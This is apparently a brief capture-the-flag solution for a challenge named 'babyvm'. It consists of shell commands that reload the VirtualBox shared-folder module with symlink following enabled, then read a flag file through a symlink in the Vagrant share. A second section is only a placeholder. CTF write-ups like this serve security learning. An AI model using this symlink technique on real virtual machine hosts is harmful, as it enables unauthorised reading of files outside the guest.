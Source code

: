 ## babyvm

su
ln -s /flag /vagrant/flag
umount vagrant
rmmod vboxsf
modprobe vboxsf follow_symlinks=1
mount -t vboxsf vagrant /vagrant
cat /vagrant/flag


## babyvm2

Stay tuned... :>

